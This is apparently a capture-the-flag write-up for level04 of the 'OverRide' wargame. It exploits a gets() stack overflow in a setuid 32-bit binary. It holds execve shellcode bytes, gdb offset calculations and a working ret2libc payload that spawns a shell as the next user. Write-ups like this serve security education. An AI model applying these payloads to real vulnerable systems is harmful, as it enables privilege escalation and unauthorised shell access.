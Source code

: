 # level04

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04

level04@OverRide:~$ file level04 
level04: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x7386c3c1bbd3e4d8fc85f88744379783bf327fd7, not stripped
```

The program takes an input an print some stuff:

```bash
level04@OverRide:~$ ./level04 
Give me some shellcode, k
asdsd
child is exiting...
```

By looking at the code we can see `gets`. As the program has a `fork`, we set `follow-fork-mode child` in gdb.
We try to overwrite `eip`:

```gdb
(gdb) set follow-fork-mode child
...
Give me some shellcode, k
[Switching to process 1962]

Breakpoint 1, 0x0804875e in main ()
(gdb) x/wx $esp
0xffffd490:     0xffffd4b0
(gdb) x/s 0xffffd4b0
0xffffd4b0:      ""
(gdb) info frame
Stack level 0, frame at 0xffffd550:
 eip = 0x804875e in main; saved eip 0xf7e45513
 Arglist at 0xffffd548, args: 
 Locals at 0xffffd548, Previous frame's sp is 0xffffd550
 Saved registers:
  ebx at 0xffffd540, ebp at 0xffffd548, edi at 0xffffd544, eip at 0xffffd54c
(gdb) p/d 0xffffd54c-0xffffd4b0
$1 = 156
```

Try to exploit:

```bash
level04@OverRide:~$ (python -c 'print "\x90" * (156 - 28) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x75\xd7\xff\xff"'; cat) | ./level04
Give me some shellcode, k
no exec() for you
```

Seems that `execve` can't be executed. Let's try ret2libc.

First, find `system` function:

```bash
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
```

And then, find `"/bin/sh"` string:

```bash
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

Try to exploit:

[ padding ] [ system() ] [ return address ] [ "/bin/sh" ]

```bash
level04@OverRide:~$ (python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\xff\xff\xff\xff"+"\xec\x97\xf8\xf7"';cat) | ./level04
Give me some shellcode, k
whoami
level05
```
